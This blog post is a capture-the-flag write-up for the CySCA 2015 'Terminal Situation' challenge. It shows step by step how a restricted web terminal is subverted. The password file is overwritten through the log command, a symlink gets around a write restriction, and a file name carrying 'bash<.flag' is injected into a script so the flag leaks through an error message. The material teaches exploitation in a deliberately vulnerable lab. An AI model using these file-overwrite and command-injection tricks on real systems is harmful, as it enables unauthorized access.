 ```yaml
---
title: CySCA 2015 - Web Application Pentest 6 - Terminal Situation
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```



<div style="font-size:0.7em"><i>Note: If you're interested in actually doing these challenges, <a href="/post/2015/cysca-2015/">check out this post</a> on 
how to get the environment set up.</i>
</div>

* * *

It's no coincidence this challenge is called Terminal Situation, we have a 
terminal sitting right in front of us. 

<!--break-->

{% highlight text %}
<server> connected
{% endhighlight %}

Lets type `help` to see if it will give us a prompt.

{% highlight text %}
> help
AVAILABLE COMMANDS:
help                  display this information
id                    show user id
ps                    list active processes
ip                    list network interfaces
rm                    delete file
ln <src> <dst>        create symlink (admins only)
ls                    list directory entries
  -s                  view file size information
  -h                  view hidden files
uname                 show system information
auth <password>       authenticate as administrator
log <outfile>         append next command output to file
reset                 reset to initial terminal state
{% endhighlight %}

We notice a command `auth` which takes a password to authenticate as an 
administrator. We also notice that using `ln` is a privileged command, 
which indicated we need to become an administrator.

Performing an "ls -h", showing hidden files, reveals

{% highlight text %}
> ls -h
.
..
.flag
.passwd
bin
{% endhighlight %}

The password for the authentication is going to be stored in `.passwd`, however
we have no way of reading files. We do, however, have a method of writing and
deleting, namely `log` and `rm`. 

- `rm .passwd`: Delete the passwd file so we can re-write it
- `log .passwd`: Log the next commands output into .passwd
- `ls` : This outputs `bin` into `.passwd`
- `auth bin`: Using our new password, `bin`, we log in.

{% highlight text %}
> rm .passwd
> log .passwd
[log] next command output will be saved to .passwd
> ls
bin
> auth bin
[auth] admin login successful!
{% endhighlight %}

Okay so now we can fiddle around with the ln command. Lets take a look at 
what's in the `bin` directory. 

{% highlight text %}
> ls -s -h bin
total 40
drwxr-xr-x 2 root     ecwiterm 4096 Nov 19 05:42 .
drwxrwxr-x 3 root     ecwiterm 4096 Nov 19 08:10 ..
-rwxr-xr-x 1 root     ecwiterm   54 Nov 19 05:42 bash
-rwxr-xr-x 1 ecwiterm ecwiterm    3 Nov 19 05:42 id.sh
-rwxr-xr-x 1 root     ecwiterm   52 Nov 19 05:42 ip
-rwxr-xr-x 1 root     ecwiterm   53 Nov 19 05:42 ln
-rwxr-xr-x 1 root     ecwiterm   58 Nov 19 05:42 ls
-rwxr-xr-x 1 root     ecwiterm   49 Nov 19 05:42 ps
-rwxr-xr-x 1 root     ecwiterm   55 Nov 19 05:42 rm
-rwxr-xr-x 1 root     ecwiterm   52 Nov 19 05:42 uname
{% endhighlight %}

The only file we have write access to is id.sh. Lets see if we can write 
arbitrary commands into it:

{% highlight text %}
> log bin/id.sh
log: invalid log file, can't use bin directory
{% endhighlight %}


I'm not surprised. What if we create a symbolic link to the script and try log
to it? 

{% highlight text %}
> ln bin/id.sh id.sh
> ls -s -h
total 20
drwxrwxr-x 3 root     ecwiterm 4096 Nov 19 08:14 .
drwxr-xr-x 3 root     ecwiterm 4096 Nov 19 05:42 ..
-rwxr-xr-x 1 root     ecwiterm   39 Nov 19 05:42 .flag
-rw-rw-r-- 1 ecwiterm ecwiterm    3 Nov 19 08:10 .passwd
drwxr-xr-x 2 root     ecwiterm 4096 Nov 19 05:42 bin
lrwxrwxrwx 1 ecwiterm ecwiterm    9 Nov 19 08:14 id.sh -> bin/id.sh
{% endhighlight %}

Perfect. Now lets set up the command we want to run when we invoke `id`. We can 
write arbitrary commands using ls <filename> provided the file exists, so we create
the command we want:

{% highlight bash %}
> log bash<.flag
[log] next command output will be saved to bash<.flag
> ls
bin
id.sh
> ls bash*
bash<.flag
{% endhighlight %}

Our command to write will be `bash<.flag`. We now need to write this into the
script. 

{% highlight text %}
> log id.sh
[log] next command output will be saved to id.sh
> ls bash*
bash<.flag
> id
[error] uid=1002(ecwiterm) gid=1002(ecwiterm) groups=1002(ecwiterm)
bash: line 1: $'FLAG{4b000000000000000000000000000000}\r': command not found
{% endhighlight %}

And thanks to bash's useful error messages, it prints out the flag for us.

